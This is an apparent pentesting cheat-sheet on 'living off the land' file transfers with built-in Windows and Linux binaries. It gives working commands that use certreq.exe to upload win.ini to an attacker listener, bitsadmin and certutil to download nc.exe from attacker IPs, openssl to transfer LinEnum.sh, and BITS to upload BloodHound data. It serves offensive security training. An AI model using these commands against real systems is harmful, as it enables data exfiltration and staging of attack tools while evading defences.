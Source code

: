 # Living Off the Land

LOLBAS Project for Windows Binaries
GTFOBins for Linux Binaries

LOLBINs can be used to perform functions such as:
	- Download
	- Upload
	- Command Execution
	- File Read
	- File Write
	- Bypasses

Let's use `CertReq.exe` as an example. We need to listen on a port from our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

## Upload win.ini to our Attacking Machine
```
C:\> certreq.exe -Post -config http://192.168.1.128/ C:\Windows\win.ini
```

This will send the file to our Netcat session and we can copy-paste it's contents:

## File Received.

Create an x509 certificate with openssl:
```bash
openssl req -newkey rsa:4096 -nodes -keyout key.pem -x509 -days 90 -out certificate.pem

openssl s_server -quiet -accept 9001 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Connect on client-end:
```bash
openssl s_client -connect 10.10.14.124:9001 -quiet > LinEnum.sh
```

## Bitsadmin

### Download
```bash
bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Windows\Temp\nc.exe
```

### Upload
```bash
Start-BitsTransfer "C:\Temp\Bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip"

-TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```

## Certutil

Download
```
certutil -verifyctl -split -f http://10.10.124.90/nc.exe
```
